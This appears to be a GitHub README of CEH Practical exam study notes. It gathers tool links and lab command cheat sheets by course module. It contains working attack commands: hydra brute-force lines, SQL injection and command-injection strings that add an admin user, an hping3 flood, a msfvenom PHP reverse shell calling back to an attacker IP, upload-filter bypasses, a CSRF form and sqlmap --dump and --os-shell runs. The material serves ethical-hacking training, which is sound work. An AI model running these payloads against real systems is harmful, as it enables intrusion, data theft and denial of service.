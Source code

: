 # CEH Practical Prep
- nmap - https://www.stationx.net/nmap-cheat-sheet/
- sqlmap - https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/
- wireshark - https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/
- wpscan - https://www.poftut.com/how-to-scan-wordpress-sites-with-wpscan-tutorial-for-security-vulnerabilities/
- hydra - https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/
- john - https://linuxconfig.org/password-cracking-with-john-the-ripper-on-linux
- hashcat
- responder - https://notsosecure.com/pwning-with-responder-a-pentesters-guide/
- CEHv10 iLAB Videos  https://www.youtube.com/playlist?list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO
- Ethical Hacking Labs -https://github.com/Samsar4/Ethical-Hacking-Labs

###### TryHackMe Rooms
- WebAppSec101 - https://tryhackme.com/room/webappsec101
- Daily Bugle - https://tryhackme.com/room/dailybugle
- Hydra - https://tryhackme.com/room/hydra
- CrackTheHash - https://tryhackme.com/room/crackthehash


####### Discovery
netdiscover -i eth0
fping -a -g subnet 2>/dev/null
nmap -p- 10.10.10.10
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
nmap -sC -sV 10.10.10.10


gobuster -e -u http://10.10.10.10 -w wordlsit.txt
dirb http://10.10.10.10 wordlist.txt

SQLi manually
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

Custom password lists
https://github.com/Dormidera/WordList-Compendium
https://datarecovery.com/rd/default-passwords/
https://github.com/danielmiessler/SecLists

cewl is grabbing words from webpage 
cewl example.com -m 5 -w words.txt 

Brute Force services

hydra
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
    
searchsploit
 - searchsploit “Linux Kernel”
 - searchsploit -m 7618 — Paste the exploit in the current directory
 - searchsploit -p 7618[.c] — Show complete path
 - searchsploit — nmap file.xml — Search vulns inside a Nmap XML result

###### Tools that are used in the iLABS

###### Module 2 - Footprinting and Reconaisance 
tracert/traceroute
ping
firebug plugin (old) for browser (same as web developer tools)
httrack to mirror a site.
path analyzer pro
metasploit 
    - service postgresql start 
    - msfconsole
    - db_status
    - msfdb init
    - service postgresql restart
    - nmap -Pn -sS -A -oX test 10.10.10.0/24
    - db_import Test
    - hosts
    - db_nmap -sS -A 10.10.10.16
    - services
    - use scanner/smb/smb_version
    - set RHOSTS 10.10.10.8-16
    - set THREADS 100
    - run
    - os_flavor
               
###### Module 4 - Enumeration
   GNI (Global Network Inventory
   Advanced IP Scanner
   SuperScan
   Hyena
   NetBios Enumerator
   SoftPerfect Netowrk Scanner
   NMAP
   ZenMAP
   nbtstat
   net use
   nmap -sP  10.10.10.0/24 ping sweet
   nmap -sS 10.10.10.0/24 stealth scan
   nmap -sSV -O synscan with OS detection
   nmap -sSV -O -oN enumeration.txt
   nmap -sU -p 161 10.10.10.0/24
   nmap -sU -p 161 --script=snmp-brute 10.10.10.12
   msfconsole
     - use auxiliry/scanner/snmp/snmp_login
     - set RHOSTS 10.10.10.12
     - run
     - use auxiliary/scanner/snmp/snmp_enum
     - set RHOSTS 10.10.10.12
     - run
   LDAP
   ADExplorer
   enum4linux -u user -p passwd -U 10.10.10.12 full output
   enum4linux -u user -p passwd -o 10.10.10.12 OS version
   enum4linux -u user -p passwd -P 10.10.10.12 password policy
   enum4linux -u user -p passwd -G 10.10.10.12 groups
   enum4linux -u user -p passwd -S 10.10.10.12 share policy 
    
 ###### Module 5 - Vulnerability Analysis
    
   Nessus
   Nikto -h 10.10.10.12 -Tuning 1
    
###### Module 6 - System hacking
    
   RainbowCrack
   Whitespace Stego
   Snow
   Image Stego
   OpenStego
   QuickStego
    
###### Module 9 - Social Engineering
    
   SET toolkit
    
###### Module 10 - Denial of Service
    
   wireshark - tcp filter
   hping3 -S 10.10.10.10 -a 10.10.10.11 -p 22 --flood
   HOIC (high orbit Ion Cannon)
    
###### Module 11 - Session Hijacking
    
   OWASP ZAP
   Burpsuite
    
###### Module 12 - Hacking Web Servers
    
   skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12
   httprecon
   ID Serve
   nmap -p 21 10.10.10.12
   ftp 10.10.10.12
    - anonymous
    - test@test.com
   hydra -L /root/Desktop/Wordlists/Usernames.txt -P root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.12
   uniscan -u http://10.10.10.12
   uniscan -u http://10.10.10.12 -we (robots.txt and sitemap.txt
   uniscan -u http://10.10.10.12 -d dynamic scan (blind SQL)
    
###### Module 14 Hacking Web Applications
    
   parameter  tampering
    When logged into site with user the following url will show in the address bar 
    http://10.10.10.12/viewprofile.aspx?id=2
    change it to
    http://10.10.10.12/viewprofile.aspx?id=1
    
   Cross Site Scripting (XSS or CSS)
   <script>alert("XSS Alert")</script>
    
   wpscan --url 10.10.10.12 --enumerate u
    
   msfconsole
    - use/auxiliary/scanner/http/wordpress_login_enum
    - set PASS_FILE passwords.txt
    - set RHOSTS 10.10.10.12
    - set RPORT 80
    - set TARGETURI http://10.10.10.12/wordpress
    - set USERNAME admin
    - run
     
   DVWA (damn vulnerable web app)
   
  command injection
    ping | hostname
    ping | net user
    ping | net user TestUser /add
    ping | net localgroup Administrators TestUser /add
    
   Vega
   Acunetix
    
   msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw > shell.php
   msfconsole
    - use/multi/handler
    - set payload php/meterpreter/reverse_tcp
    - set lhost 10.10.10.11
    - set lport 4444
    - run
   when shell connects
    - sysinfo
    
   if .php doesn't upload and says only images like .jpg, .jpeg, .png only allowed rename shell.php to shell.php.jpg
   if that doesn't work, rename to shell.php
   edit in notepad or vim and add GIF98 in the beginning
   
   burpsuite
   
   Upload CSRF
    
   wpscan -u http://10.10.10.12 --enumerate vp
   
   <form  method="POST" action="https://10.10.10.12/wp-admin/options-general.php?page=wordpress-firewall-2%2Fwordpress-firewall-2.php"><script>alert("As an Admin, To Enable additional security to your website. Click Submimt")</script><input type="hidden" name="whitelisted_ip[]" value="10.10.10.11">
   <input type="hidden" name="set_whitelist_ip" value="Set Whitelist IPs" class="button-secondary">
   <input type="submit">
   </form>
   save as Security_Script.html
    
    
####### Module 15 - SQL Injection
    
   blah' or 1=1 --
   blah';insert into login values('jon','pass'); --
   blah';create database newdb; --
   blah';'exec master_xp_cmdshell 'ping 10.10.10.12 -l 65000 -t; --
    
   NStalker
    
   inspect element
   console
   document.cookie
           
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --dbs
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname --tables
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --columns
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> -D dbname -T user_login_table --dump
   sqlmap -u "10.10.10.12/viewprofile.aspx?id=1" --cookies=<"cookie value which you have copied above"> --os-shell
    
    
###### Module 20 - Cryptography
    
   HashCalc
   md5calc
   cryptoforge
   BCTextEncoder
   IIS Self Signed Certs
   VeraCrypt
   CrypTool
